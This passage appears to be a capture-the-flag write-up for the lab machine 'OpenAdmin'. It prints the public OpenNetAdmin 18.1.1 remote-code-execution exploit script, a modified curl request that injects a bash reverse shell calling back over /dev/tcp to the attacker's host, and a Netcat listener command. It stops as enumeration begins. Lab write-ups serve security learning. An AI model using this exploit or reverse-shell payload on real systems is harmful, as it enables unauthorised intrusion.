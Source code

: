 ### Modifying RCE Exploit  

So, here is the bash script that we downloaded via searchsploit :  

```bash
# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```  

I successfully executed remote commands by firing them individually (you can also chain them via semicolon):  

> Example: ./47691.sh http://10.10.10.171/ona/login.php cd /; ls-la; cd /tmp; echo "hi" > greeting.txt  

But this was extremely slow, so I decided to curl the exploit myself and throw a [reverse payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) in it to gain an interactive shell.  

Had a couple issues getting it to work, but I just copied the original, deleted the "echo" cmd, [url-encoded](https://www.urlencoder.org/) a bash payload to add instead and ran Netcat :  

```bash
nc -nvlp 4242
```  

```bash
# reverse shell payload set for 10.10.14.42:4242

curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.42%2F4242%200%3E%261'&xajaxargs[]=ping" http://10.10.10.171/ona/login.php
```  

Now checking back on our Netcat listener, we have a shell :  

>www-data@openadmin  

## Enumerating Internals 

So, the first issue we have is we need to spawn a tty shell, because upon logging in we see the message :  
